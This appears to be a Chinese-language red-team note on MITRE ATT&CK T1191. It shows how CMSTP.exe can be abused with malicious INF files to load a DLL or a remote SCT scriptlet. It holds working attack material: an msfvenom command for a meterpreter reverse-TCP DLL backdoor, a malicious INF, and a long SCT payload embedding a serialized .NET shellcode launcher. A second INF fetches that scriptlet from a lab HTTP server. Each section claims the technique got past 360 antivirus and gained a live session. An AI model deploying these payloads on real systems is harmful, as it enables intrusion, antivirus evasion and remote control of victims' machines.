



# T1191-CMSTP

Microsoft连接管理器配置文件安装程序（CMSTP.exe）是用于安装连接管理器服务配置文件的命令行程序。CMSTP.exe接受安装信息文件（INF）作为参数，并安装用于远程访问连接的服务配置文件。

攻击者可能会使用CMSTP.exe调用恶意的INF文件。与[Regsvr32](https://attack.mitre.org/techniques/T1117) 相似，CMSTP.exe可能被利用从远程服务器加载和执行DLL或COM脚本（SCT）。由于CMSTP.exe是合法的，经过签名的Microsoft应用程序，因此该执行过程也可以绕过AppLocker和其他白名单防御。

CMSTP.exe也可以通过自动提升的COM接口从恶意INF执行任意命令[绕过用户帐户控制](https://attack.mitre.org/techniques/T1088)

## 命令执行（DLL）

### 技术复现

1. 创建dll后门文件

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.58.133 LPORT=9999 -f dll -o backdoor.dll
   ```

2. 创建恶意的INF文件

   ```
   ;cmstp_dll.inf
   [version]
   Signature=$chicago$
   AdvancedINF=2.5
    
   [DefaultInstall_SingleUser]
   RegisterOCXs=RegisterOCXSection
    
   [RegisterOCXSection]
   C:\Users\777\Desktop\AH\backdoor.dll
    
   [Strings]
   AppAct = "SOFTWARE\Microsoft\Connection Manager"
   ServiceName="Lab"
   ShortSvcName="Lab"
   ```

3. 将DLL和INF传输到目标主机，使用cmstp.exe调用恶意的INF文件

   ```
   cmstp /s cmstp_dll.inf
   ```

### 结果验证

绕过360上线主机




## 命令执行（SCT）

### 技术复现

1. 建立HTTP服务器，放置SCT payload文件

   ```
   <?XML version="1.0"?>
   <scriptlet>
   <registration
     progid="TESTING"
     classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
     <script language="JScript">
       <![CDATA[
        function setversion() {
   var shell = new ActiveXObject('WScript.Shell');
   ver = 'v4.0.30319';
   try {
   shell.RegRead('HKLM\\SOFTWARE\\Microsoft\\.NETFramework\\v4.0.30319\\');
   } catch(e) {
   ver = 'v2.0.50727';
   }
   shell.Environment('Process')('COMPLUS_Version') = ver;
   
   }
   function debug(s) {}
   function base64ToStream(b) {
           var enc = new ActiveXObject("System.Text.ASCIIEncoding");
           var length = enc.GetByteCount_2(b);
           var ba = enc.GetBytes_4(b);
           var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
           ba = transform.TransformFinalBlock(ba, 0, length);
           var ms = new ActiveXObject("System.IO.MemoryStream");
           ms.Write(ba, 0, (length / 4) * 3);
           ms.Position = 0;
           return ms;
   }
   
   var serialized_obj = "AAEAAAD/////AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"+
   "AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"+
   "dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk"+
   "ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD"+
   "AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl"+
   "RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU"+
   "eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl"+
   "cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90"+
   "aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu"+
   "MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH"+
   "dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0ludm9rZQoEAwAA"+
   "ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw"+
   "B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu"+
   "dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA"+
   "CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9u"+
   "SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5"+
   "cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR"+
   "AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0ludm9rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA"+
   "AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y"+
   "bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh"+
   "NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz"+
   "ZW1ibHkGFwAAAARMb2FkCg8MAAAAABQAAAJNWpAAAwAAAAQAAAD//wAAuAAAAAAAAABAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAADh+6DgC0Cc0huAFMzSFUaGlzIHByb2dy"+
   "YW0gY2Fubm90IGJlIHJ1biBpbiBET1MgbW9kZS4NDQokAAAAAAAAAFBFAABMAQMABUJG3QAAAAAA"+
   "AAAA4AAiIAsBMAAADAAAAAYAAAAAAABOKgAAACAAAABAAAAAAAAQACAAAAACAAAEAAAAAAAAAAQA"+
   "AAAAAAAAAIAAAAACAAAAAAAAAwBAhQAAEAAAEAAAAAAQAAAQAAAAAAAAEAAAAAAAAAAAAAAA+ykA"+
   "AE8AAAAAQAAAqAMAAAAAAAAAAAAAAAAAAAAAAAAAYAAADAAAAFwpAAA4AAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAIAAAAAAAAAAAAAAAIIAAASAAAAAAAAAAA"+
   "AAAALnRleHQAAACsCwAAACAAAAAMAAAAAgAAAAAAAAAAAAAAAAAAIAAAYC5yc3JjAAAAqAMAAABA"+
   "AAAABAAAAA4AAAAAAAAAAAAAAAAAAEAAAEAucmVsb2MAAAwAAAAAYAAAAAIAAAASAAAAAAAAAAAA"+
   "AAAAAABAAABCAAAAAAAAAAAAAAAAAAAAAC8qAAAAAAAASAAAAAIABQDkIAAAeAgAAAEAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPgIoDwAACgAA"+
   "KAIAAAYAKhMwBgBlAAAAAQAAEQAgVQEAAI0SAAABJdADAAAEKBAAAAoKFgaOaX4BAAAEfgIAAAQo"+
   "AwAABgsGFgduKBEAAAoGjmkoEgAACgB+EwAACgwWDX4TAAAKEwQWFgcRBBYSAygEAAAGDAgVKAUA"+
   "AAYmKwAqSiAAEAAAgAEAAAQfQIACAAAEKkJTSkIBAAEAAAAAAAwAAAB2Mi4wLjUwNzI3AAAAAAUA"+
   "bAAAAPQCAAAjfgAAYAMAAPwDAAAjU3RyaW5ncwAAAABcBwAABAAAACNVUwBgBwAAEAAAACNHVUlE"+
   "AAAAcAcAAAgBAAAjQmxvYgAAAAAAAAACAAABV5UCNAkCAAAA+gEzABYAAAEAAAAXAAAABAAAAAMA"+
   "AAAGAAAADAAAABMAAAAOAAAAAQAAAAEAAAABAAAAAwAAAAEAAAABAAAAAQAAAAEAAAAAAJMCAQAA"+
   "AAAABgDqAUoDBgBXAkoDBgA3AQkDDwBqAwAABgBfAcACBgDNAcACBgCuAcACBgA+AsACBgAKAsAC"+
   "BgAjAsACBgB2AcACBgBLASsDBgApASsDBgCRAcACBgDHA7QCBgAOAUoDBgDzALQCBgB1ArQCBgCc"+
   "A0oDBgDuA7QCBgDYALQCBgACA7QCBgCLAisDAAAAAFEAAAAAAAEAAQABABAArALjAj0AAQABAAAB"+
   "AABaAAAAPQADAAcAEwEAACoAAABFAAQABwARAJAARQARAHkARQAzAQEASABQIAAAAACGGPUCBgAB"+
   "AGAgAAAAAJEAuwJMAAEAAAAAAIAAkSCkAFAAAQAAAAAAgACRILwAWAAFAAAAAACAAJEgugNjAAsA"+
   "0SAAAAAAkRj7AkwADQAAAAEA1wIAAAIAhgIAAAMA/QAAAAQAzgMAAAEAeQMAAAIAegIAAAMAqwMA"+
   "AAQApgIAAAUAjAMAAAYAsQAAAAEA6wAAAAIAHAMJAPUCAQARAPUCBgAZAPUCCgApAPUCEAAxAPUC"+
   "EAA5APUCEABBAPUCEABJAPUCEABRAPUCEABZAPUCEABhAPUCFQBpAPUCEABxAPUCEACBAPUCBgB5"+
   "APUCBgCZAOQDIwCxANgDKwC5APQDMACxANICOQAuAAsAaQAuABMAcgAuABsAkQAuACMAmgAuACsA"+
   "rgAuADMArgAuADsArgAuAEMAmgAuAEsAtAAuAFMArgAuAFsArgAuAGMAzAAuAGsA9gBjAHMAAwEB"+
   "AFUBAAAEABoASAAAAQcApAABAAABCQC8AAEAAAELALoDAQBUKgAAAwAEgAAAAQAAAAAAAAAAAAAA"+
   "AADJAAAAAgAAAAAAAAAAAAAAPACbAAAAAAAEAAMAAAAAAABCRkI2MTAzMDkzMzFEQ0QxMzg1MjJF"+
   "NjAwRTY4QzVDNzNDMkE2MEIwAF9fU3RhdGljQXJyYXlJbml0VHlwZVNpemU9MzQxAGtlcm5lbDMy"+
   "ADxNb2R1bGU+ADxQcml2YXRlSW1wbGVtZW50YXRpb25EZXRhaWxzPgBQQUdFX0VYRUNVVEVfUkVB"+
   "RFdSSVRFAE1FTV9DT01NSVQAbXNjb3JsaWIAVmlydHVhbEFsbG9jAGxwVGhyZWFkSWQAQ3JlYXRl"+
   "VGhyZWFkAENzaGFycF9wYXlsb2FkAFJ1bnRpbWVGaWVsZEhhbmRsZQBoSGFuZGxlAFZhbHVlVHlw"+
   "ZQBmbEFsbG9jYXRpb25UeXBlAENvbXBpbGVyR2VuZXJhdGVkQXR0cmlidXRlAEd1aWRBdHRyaWJ1"+
   "dGUARGVidWdnYWJsZUF0dHJpYnV0ZQBDb21WaXNpYmxlQXR0cmlidXRlAEFzc2VtYmx5VGl0bGVB"+
   "dHRyaWJ1dGUAQXNzZW1ibHlUcmFkZW1hcmtBdHRyaWJ1dGUAQXNzZW1ibHlGaWxlVmVyc2lvbkF0"+
   "dHJpYnV0ZQBBc3NlbWJseUNvbmZpZ3VyYXRpb25BdHRyaWJ1dGUAQXNzZW1ibHlEZXNjcmlwdGlv"+
   "bkF0dHJpYnV0ZQBDb21waWxhdGlvblJlbGF4YXRpb25zQXR0cmlidXRlAEFzc2VtYmx5UHJvZHVj"+
   "dEF0dHJpYnV0ZQBBc3NlbWJseUNvcHlyaWdodEF0dHJpYnV0ZQBBc3NlbWJseUNvbXBhbnlBdHRy"+
   "aWJ1dGUAUnVudGltZUNvbXBhdGliaWxpdHlBdHRyaWJ1dGUAQnl0ZQBkd1N0YWNrU2l6ZQBzaXpl"+
   "AE1hcnNoYWwAQ3NoYXJwX3BheWxvYWQuZGxsAHBhcmFtAFByb2dyYW0AU3lzdGVtAE1haW4AU3lz"+
   "dGVtLlJlZmxlY3Rpb24AWmVybwBscFN0YXJ0QWRkcgBTaGVsbENvZGVMYXVuY2hlcgAuY3RvcgAu"+
   "Y2N0b3IASW50UHRyAFN5c3RlbS5EaWFnbm9zdGljcwBkd01pbGxpc2Vjb25kcwBTeXN0ZW0uUnVu"+
   "dGltZS5JbnRlcm9wU2VydmljZXMAU3lzdGVtLlJ1bnRpbWUuQ29tcGlsZXJTZXJ2aWNlcwBEZWJ1"+
   "Z2dpbmdNb2RlcwBscFRocmVhZEF0dHJpYnV0ZXMAZHdDcmVhdGlvbkZsYWdzAFJ1bnRpbWVIZWxw"+
   "ZXJzAGxwU3RhcnRBZGRyZXNzAFdhaXRGb3JTaW5nbGVPYmplY3QAZmxQcm90ZWN0AG9wX0V4cGxp"+
   "Y2l0AEluaXRpYWxpemVBcnJheQBDb3B5AAAAAAAAAADzccMVUZOdR7WTGxRCBM87AAQgAQEIAyAA"+
   "AQUgAQEREQQgAQEOBCABAQIIBwUdBQkYCRgHAAIBElERVQQAARgKCAAEAR0FCBgIAgYYCLd6XFYZ"+
   "NOCJAgYJAwYREAMAAAEHAAQJCQkJCQoABhgJCQkYCRAJBQACCRgJCAEACAAAAAAAHgEAAQBUAhZX"+
   "cmFwTm9uRXhjZXB0aW9uVGhyb3dzAQgBAAcBAAAAABMBAA5Dc2hhcnBfcGF5bG9hZAAABQEAAAAA"+
   "FwEAEkNvcHlyaWdodCDCqSAgMjAxOQAAKQEAJDRlYTcyYjkyLWMxMzItNDExZi1iM2Y5LWRlOGQ0"+
   "ODM4NjdkYgAADAEABzEuMC4wLjAAAAQBAAAAAAAAACXgPMcAAAAAAgAAAGcAAACUKQAAlAsAAAAA"+
   "AAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAABSU0RTTMeSmAxgNkeNoTPbkz93lQEAAABEOlx3b3Jr"+
   "XENvZGVQcm9qZWN0XENzaGFycF9wYXlsb2FkXENzaGFycF9wYXlsb2FkXG9ialxEZWJ1Z1xDc2hh"+
   "cnBfcGF5bG9hZC5wZGIAIyoAAAAAAAAAAAAAPSoAAAAgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC8q"+
   "AAAAAAAAAAAAAAAAX0NvckRsbE1haW4AbXNjb3JlZS5kbGwAAAAAAAD/JQAgABD86IIAAABgieUx"+
   "wGSLUDCLUgyLUhSLcigPt0omMf+sPGF8Aiwgwc8NAcfi8lJXi1IQi0o8i0wReONIAdFRi1kgAdOL"+
   "SRjjOkmLNIsB1jH/rMHPDQHHOOB19gN9+Dt9JHXkWItYJAHTZosMS4tYHAHTiwSLAdCJRCQkW1th"+
   "WVpR/+BfX1qLEuuNXWgzMgAAaHdzMl9UaEx3JgeJ6P/QuJABAAApxFRQaCmAawD/1WoKaMCoOodo"+
   "AgAnD4nmUFBQUEBQQFBo6g/f4P/Vl2oQVldomaV0Yf/VhcB0Cv9OCHXs6GcAAABqAGoEVldoAtnI"+
   "X//Vg/gAfjaLNmpAaAAQAABWagBoWKRT5f/Vk1NqAFZTV2gC2chf/9WD+AB9KFhoAEAAAGoAUGgL"+
   "Lw8w/9VXaHVuTWH/1V5e/wwkD4Vw////6Zv///8BwynGdcHDu/C1olZqAFP/1QAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAQAAAAGAAAgAAAAAAAAAAAAAAAAAAA"+
   "AQABAAAAMAAAgAAAAAAAAAAAAAAAAAAAAQAAAAAASAAAAFhAAABMAwAAAAAAAAAAAABMAzQAAABW"+
   "AFMAXwBWAEUAUgBTAEkATwBOAF8ASQBOAEYATwAAAAAAvQTv/gAAAQAAAAEAAAAAAAAAAQAAAAAA"+
   "PwAAAAAAAAAEAAAAAgAAAAAAAAAAAAAAAAAAAEQAAAABAFYAYQByAEYAaQBsAGUASQBuAGYAbwAA"+
   "AAAAJAAEAAAAVAByAGEAbgBzAGwAYQB0AGkAbwBuAAAAAAAAALAErAIAAAEAUwB0AHIAaQBuAGcA"+
   "RgBpAGwAZQBJAG4AZgBvAAAAiAIAAAEAMAAwADAAMAAwADQAYgAwAAAAGgABAAEAQwBvAG0AbQBl"+
   "AG4AdABzAAAAAAAAACIAAQABAEMAbwBtAHAAYQBuAHkATgBhAG0AZQAAAAAAAAAAAEYADwABAEYA"+
   "aQBsAGUARABlAHMAYwByAGkAcAB0AGkAbwBuAAAAAABDAHMAaABhAHIAcABfAHAAYQB5AGwAbwBh"+
   "AGQAAAAAADAACAABAEYAaQBsAGUAVgBlAHIAcwBpAG8AbgAAAAAAMQAuADAALgAwAC4AMAAAAEYA"+
   "EwABAEkAbgB0AGUAcgBuAGEAbABOAGEAbQBlAAAAQwBzAGgAYQByAHAAXwBwAGEAeQBsAG8AYQBk"+
   "AC4AZABsAGwAAAAAAEgAEgABAEwAZQBnAGEAbABDAG8AcAB5AHIAaQBnAGgAdAAAAEMAbwBwAHkA"+
   "cgBpAGcAaAB0ACAAqQAgACAAMgAwADEAOQAAACoAAQABAEwAZQBnAGEAbABUAHIAYQBkAGUAbQBh"+
   "AHIAawBzAAAAAAAAAAAATgATAAEATwByAGkAZwBpAG4AYQBsAEYAaQBsAGUAbgBhAG0AZQAAAEMA"+
   "cwBoAGEAcgBwAF8AcABhAHkAbABvAGEAZAAuAGQAbABsAAAAAAA+AA8AAQBQAHIAbwBkAHUAYwB0"+
   "AE4AYQBtAGUAAAAAAEMAcwBoAGEAcgBwAF8AcABhAHkAbABvAGEAZAAAAAAANAAIAAEAUAByAG8A"+
   "ZAB1AGMAdABWAGUAcgBzAGkAbwBuAAAAMQAuADAALgAwAC4AMAAAADgACAABAEEAcwBzAGUAbQBi"+
   "AGwAeQAgAFYAZQByAHMAaQBvAG4AAAAxAC4AMAAuADAALgAwAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAIAAADAAAAFA6AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
   "AAAAAAAAAAAAAAAAAAAAAAENAAAABAAAAAkXAAAACQYAAAAJFgAAAAYaAAAAJ1N5c3RlbS5SZWZs"+
   "ZWN0aW9uLkFzc2VtYmx5IExvYWQoQnl0ZVtdKQgAAAAKCwAA";
   var entry_class = 'ShellCodeLauncher.Program';
   
   try {
           setversion();
           var stm = base64ToStream(serialized_obj);
           var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
           var al = new ActiveXObject('System.Collections.ArrayList');
           var d = fmt.Deserialize_2(stm);
           al.Add(undefined);
           var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
   
   } catch (e) {
       debug(e.message);
   }
       ]]>
   </script>
   </registration>
   </scriptlet>
   
   ```

2. 配置恶意的INF文件

   ```
   [version]
   Signature=$chicago$
   AdvancedINF=2.5
    
   [DefaultInstall_SingleUser]
   UnRegisterOCXs=UnRegisterOCXSection
    
   [UnRegisterOCXSection]
   %11%\scrobj.dll,NI,http://192.168.58.135:8000/bb.sct
    
   [Strings]
   AppAct = "SOFTWARE\Microsoft\Connection Manager"
   ServiceName="Lab"
   ShortSvcName="Lab"
   ```

### 结果验证

绕过360上线主机






## 参考

https://attack.mitre.org/techniques/T1191/

https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/

https://oddvar.moe/2017/08/15/research-on-cmstp-exe/

